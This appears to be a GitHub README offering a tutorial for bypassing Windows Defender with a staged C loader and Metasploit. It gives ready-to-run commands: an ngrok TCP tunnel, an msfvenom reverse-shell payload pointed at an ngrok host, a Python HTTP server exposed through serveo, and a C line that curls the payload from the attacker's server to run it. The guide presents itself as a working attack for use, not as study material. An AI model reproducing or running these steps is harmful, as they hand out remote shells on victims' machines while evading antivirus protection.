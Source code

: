 # Bypass-Windows-Defender
Bypass Windows Defender with a staged C code &amp; metasploit framework

#### developed by L0PA

 ### Bypass Step's:
   - Create a TCP Tunnel: Set up a TCP tunnel using Ngrok to expose the port for the payload.
   - Generate Payload: Use msfvenom to create the payload in .bin format.
   - Start Python Server: Launch a Python HTTP server in the same directory where the payload is located.
   - Expose Server Online: Use Serveo to make the server accessible online.
   - Set up Listener: Use msfconsole to listen on the specified TCP port.
   - Develop C Code: Write the C code to fetch and execute the payload.
   - Compile and Run: Compile the C code and execute.
##

### Tutorial

- Create the tcp tunnel on the port 4444
  ```
  sudo ngrok tcp 4444
  ```
- Copy the IP and the PORT of the server 
  ```
   - IP: 4.tcp.eu.ngrok.io
   - PORT: 15819
  ```

<p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/ngrok-tcp.jpg">
   </p>

- Create the .bin payload using msfvenom 
  ```
   - msfvenom -p windows/x64/shell_reverse_tcp LHOST=4.tcp.eu.ngrok.io LPORT=15819 -f raw -o payload.bin
  ```

- Launch a Python HTTP server in the same directory where the payload is located 
  ```
   - python -m http.server 8090
  ```

  - Create the serveo key and expose python server using a serveo tunnel
  ```
   - ssh-keygen -t rsa -b 4096 -f ~/.ssh/serveo_key
   - ssh -i ~/.ssh/serveo_key -R yourServer:80:localhost:8090 serveo.net
  ```

  - Create the main.c file and modify the "command" variable with your server
  ```
   - char *command = "curl https://yourServer.serveo.net/payload.bin";
  ```

  <p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/ngrok-tcp.jpg](https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/command_variable.png">
   </p>
